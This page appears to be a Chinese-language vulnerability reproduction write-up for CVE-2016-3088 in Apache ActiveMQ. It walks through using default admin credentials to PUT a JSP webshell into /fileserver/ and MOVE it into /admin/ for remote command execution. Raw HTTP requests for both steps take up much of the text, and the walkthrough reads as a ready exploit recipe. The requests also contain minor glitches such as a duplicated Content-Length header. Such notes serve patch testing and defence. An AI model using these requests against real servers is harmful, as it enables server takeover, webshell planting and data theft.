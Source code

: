 <h1>（CVE-2016-3088）ActiveMQ应用漏洞</h1>
<h2>一、漏洞简介</h2>
<p>ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。</p>
<h2>二、漏洞影响</h2>
<p>Apache ActiveMQ 5.x ~ 5.14.0</p>
<h2>三、复现过程</h2>
<p>漏洞是需要登录之后才可以执行<br>
漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/<br>
下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面<br>
所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去<br>
如果上传不解析的话，则是证明没有权限！！！<br>
如果上传不解析的话，则是证明没有权限！！！<br>
如果上传不解析的话，则是证明没有权限！！！<br>
ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/ActiveMQ/images/rId2.png"/>
<pre><code>
PUT /fileserver/shell.jsp HTTP/1.1
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
</code></pre>
<p>shell<br>
利用 MOVE 方法将 Webshell 移入 admin/ 目录</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/ActiveMQ/images/rId3.png"/>
<pre><code>
Request Raw:
MOVE /fileserver/shell.jsp HTTP/1.1
Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 17
Content-Length: 0
</code></pre>
<p>shell</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/ActiveMQ/images/rId4.png"/>

